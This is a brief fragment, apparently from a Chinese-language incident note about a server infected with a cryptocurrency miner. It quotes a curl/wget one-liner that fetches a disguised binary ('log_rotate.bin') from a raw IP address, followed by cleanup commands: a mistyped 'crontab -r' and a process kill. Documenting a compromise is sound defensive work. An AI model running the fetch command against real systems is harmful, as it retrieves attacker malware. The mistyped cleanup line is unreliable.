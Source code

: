 ### 记一次被植入挖矿程序的经历



```bash
curl -s http://185.164.72.119/log_rotate.bin||wget -q -O- http://185.164.72.119/log_rotate.bin
```
```bash
crobtab -r
kill -9 23343
```